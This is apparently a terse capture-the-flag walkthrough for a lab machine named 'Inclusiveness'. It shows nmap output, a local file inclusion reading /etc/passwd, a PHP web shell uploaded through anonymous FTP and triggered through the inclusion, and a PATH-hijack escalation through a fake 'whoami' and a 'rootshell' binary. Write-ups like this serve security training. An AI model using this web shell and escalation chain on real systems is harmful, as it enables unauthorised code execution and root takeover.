 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Inclusiveness
# 3/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))



 /secret_information

 http://192.168.75.14/secret_information/?lang=/etc/passwd

 <?php system($_GET['cmd']);?>

http://192.168.75.14/secret_information/?lang=/var/ftp/pub/backdoor.php&cmd=id

cd /tmp
echo "printf "tom"" > whoami
chmod 777 whoami


cd /home/tom
./rootshell
cd /root
cat flag.txt